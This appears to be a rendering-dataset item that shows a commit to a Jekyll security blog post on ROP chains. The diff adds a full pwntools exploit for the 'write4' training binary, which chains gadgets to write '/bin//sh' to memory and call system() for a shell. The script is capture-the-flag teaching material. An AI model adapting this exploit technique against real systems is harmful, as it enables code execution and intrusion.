

Before and after one commit to Delt-A/delt-a.github.io, a Jekyll site: the page built from _posts/2019-07-07-rop-chain.md, in a window 1280 px wide and 900 px high, scrolled down 482 px. Shown: the top 865 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; before the commit the page ends 1169 px from its top, so only the background shows below that.

Commit message:
Update 2019-07-07-rop-chain.md

```diff
--- a/_posts/2019-07-07-rop-chain.md
+++ b/_posts/2019-07-07-rop-chain.md
@@ -24,3 +24,24 @@ payload = padding + p64(pop_r14_r15) + p64(data_addr) + '/bin//sh' + p64(usefulG
 p.sendline(payload)
 p.interactive()
 {% endhighlight %}
+
+{% highlight python linenos %}
+from pwn import *
+
+p = process('./write4')
+elf = ELF('./write4')
+rop = ROP(elf)
+
+pop_r14_r15 = (rop.find_gadget(['pop r14','pop r15', 'ret']))[0]
+pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
+usefulGadget = elf.symbols['usefulGadgets']
+SYSTEM = elf.symbols['system']
+data_addr = 0x0000000000601050
+padding = 'a'*40
+
+payload = padding + p64(pop_r14_r15) + p64(data_addr) + '/bin//sh' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM)
+#payload += p64(pop_r14_r15) + p64(data_addr+8) + '.txt\x00\x00\x00\x00' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM)
+p.sendline(payload)
+#print p.recvall()
+p.interactive()
+{% endhighlight %}
```
